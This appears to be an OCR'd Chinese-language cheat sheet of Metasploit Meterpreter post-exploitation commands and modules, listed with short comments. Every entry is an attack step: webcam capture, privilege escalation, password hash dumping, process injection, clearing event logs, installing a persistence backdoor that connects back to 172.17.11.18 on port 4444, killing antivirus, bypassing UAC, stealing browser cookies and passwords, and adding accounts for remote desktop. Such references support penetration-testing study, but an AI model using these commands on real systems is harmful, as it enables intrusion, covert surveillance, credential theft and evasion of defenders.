 ```shell
webcam_chat					# 查看摄像头接口

webcam_list					# 查看摄像头列表

webcam_stream				# 摄像头视频获取

getsystem					# 获取高权限

hashdump					# 下载账户hash

migrate						# 将自身注入到其他进程中

clearev						# 清除痕迹

screenshot					# 截屏


# run
run [scriptName|moudleName]				# 执行某个模块或脚本	

# 常用模块
run  persistence						# persistence 向目标主机注入后门程序
# run  persistence -X  -i  5  -p 4444  -r 172.17.11.18 
# -X 在目标主机上开机自启动
# -i 不断尝试反向连接的时间间隔

run metsvc 								# metsvc 注册服务

run packetrecorder						# 查看网络流量,-i 指定网卡

run get_local_subnets					# 获得本地网段

run getcountermeasure					# 显示HIPS和AV进程的列表，显示远程机器的防火墙规则，列出DEP和UAC策略

run scraper								# 获取网络共享信息

run killav								# 中止杀毒软件进程

run vnc									# 获得vnc远程桌面

run getgui  -e 							# 开启远程桌面 

run getgui -u example_username -p example_password # 添加账号
# 完整脚本列表在kali: /usr/share/metasploit-framework/scripts/meterpreter
```

```shell
# 常用模块
post/windows/gather/forensics/enum_drives	# 枚举存储器信息

post/windows/gather/checkvm					# 检查是否是虚拟机

post/windows/gather/enum_applications		# 获取目标主机上的软件安装信息

post/windows/gather/dumplinks				# 获取目标主机上最近访问过的文档、链接信息

post/windows/gather/enum_ie					# 读取目标主机IE浏览器cookies等缓存信息，嗅探目标主机登录过的各类账号密码

post/windows/manage/killav 					# 关闭杀毒软件,可能导致蓝屏

post/windows/escalate/bypassuac				# 绕过uac

post/windows/gather/hashdump				# 获取系统hash

```